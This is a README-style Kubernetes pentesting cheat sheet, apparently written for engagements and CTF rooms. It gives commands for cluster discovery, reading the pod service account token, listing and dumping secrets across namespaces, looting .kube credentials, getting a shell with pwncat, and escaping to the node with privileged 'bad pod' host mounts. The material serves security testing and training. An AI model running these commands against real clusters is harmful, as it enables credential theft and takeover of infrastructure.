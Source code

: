 # Kubernetes Exploit Hub

## Description
These are a collection of methods and tools I've found useful on pentesting Kubernetes Clusters. 

References to setup an AKS Cluster in Azure:
https://docs.microsoft.com/en-us/azure/aks/learn/quick-kubernetes-deploy-portal?tabs=azure-cli

### Microsoft Recon

If you have some Microsoft creds that have access to an AKS cluster

Login:
```
az login
```

Configure kubectl to connect to your Kubernetes cluster:
```
az aks get-credentials --resource-group myResourceGroup --name myAKSCluster
```

If you are on a administrative VM with WSL or linux box. You can and should loot the .kube directory!

### Discovery and Enumeration
**Discovery with nmap (Sample with IP Address):**

```
nmap -sC -sV -p- -oA Kubernetes1 10.10.197.28
```

Pay attention to DNS names from NMAP scan outputs as they can give away that you are working with a Kubernetes environment when you have a cluster operating on a non standard port. 

**Discovering Kubernetes Clusters with Kube Hunter:**

Note: You can do single IP addresses or entire subnet ranges with this tool. If on a penetration testing engagement this should be helpful for fingerprinting kubernetes clusters and developing a quick win on potential pod misconfigurations. 

Software URL:https://github.com/aquasecurity/kube-hunter

Installation:
```
sudo pip3 install kube-hunter
```

Run Kube hunter:

```
kube-hunter
```

### Initial Exploitation

After Gaining access to a cluster. Usually by misconfiguration with the application that it is hosting. PHP, Grafana, etc.

**Service Account Token Location**
```
/var/run/secrets/kubernetes.io/serviceaccount/token
```

Dropping out token and exporting it with your current terminal session:
```
cat /var/run/secrets/kubernetes.io/serviceaccount/token
```

```
export TOKEN={TOKEN}
```

**Checking your permissions with the current token that you have(remote command):**
```
kubectl --server https://serverip:port --token=$TOKEN auth can-i --list
```

If cluster is running a self sign certificate then add insecure tls to your command:
```
kubectl --server https://serverip:port --token=$TOKEN --insecure-skip-tls-verify auth can-i --list
```
**Checking your permissions with the current token that you have (Local Commands):**

This is basically the same thing as above with the exception that you are dropping the --server command

ProTip: If you need to do file transfers to a pod. Its very possible you may be in a pod without wget or curl commands. Normally I am only transfer kubectl and a poisoned pod of some sort. Pwncat-cs has been an excellent choice not only from an upload standpoint but you will have a nice full tty session to work with as well. 

Github: https://github.com/calebstewart/pwncat

Installation:

```
pip install pwncat-cs
```

Install with venv (What I would recommend so you don't impact other projects with python version dependicies on your attack box.) 

```
python3 -m venv pwncat-env
source pwncat-env/bin/activate
pip install pwncat-cs
```

Check Permissions:
```
kubectl --token=$TOKEN auth can-i --list
```

**Checking out what PODS are running**
(Remote):
```
kubectl get pods --server https://serverip:port --token=$TOKEN --insecure-skip-tls-verify
```

(Local):
```
kubectl get pods --token=$TOKEN
```
**Get POD Configurations**

This is useful if you need to produce an image of the same type with a posioned pod for later. 

(Local):
```
./kubectl get pod php-deploy-6d998f68b9-wlslz --token=$TOKEN -o yaml
```
**Hunting for API's and getting secrets from them**

Get API's

(Remote):
```
kubectl api-resources --server https://ip:port --token=$TOKEN --insecure-skip-tls-verify
```

(Local):
```
kubectl api-resources --token=$TOKEN --insecure-skip-tls-verify
```

Get namespaces from within API Example is through a API called "secrets":

(Remote):
```
kubectl --server https://10.10.103.214:6443 --token=$TOKEN --insecure-skip-tls-verify get secrets --all-namespaces
```

(Local):
```
kubectl --token=$TOKEN secrets --all-namespaces
```

Pull up YAML output of name/namespaces(example for flag3):

```
kubectl --server https://10.10.103.214:6443 --token=$TOKEN --insecure-skip-tls-verify get secrets flag3 -n kube-system -o yaml
```

### Escaping with bad pods

URL Reference: https://github.com/BishopFox/badPods

**Tips and Tricks with bad pods:**

If Isolated from internet include this in your yaml config:

```
imagePullPolicy: IfNotPresent
```

Always make note of your mount point when breaking out from a pod. This will be in your yaml config of your bad pod. For example this will make your mount point at /host:

```
volumeMounts:
    - mountPath: /host
      name: noderoot
```
## Penetration Testing Resources on Kubernetes

**Try Hack Me Rooms:**

Insekube: https://tryhackme.com/room/insekube

Frank & Herby make an app: https://tryhackme.com/room/frankandherby

Frank and Herby try again: https://tryhackme.com/room/frankandherbytryagain

PalsForLife: https://tryhackme.com/room/palsforlife

Kubernetes for Everyone: https://tryhackme.com/room/kubernetesforyouly

Island Orchestration: https://tryhackme.com/room/islandorchestration

**Hack The Box rooms**

Unobtainium: https://app.hackthebox.com/machines/Unobtainium

**References**

What is The Kubenomicon?: https://kubenomicon.com/
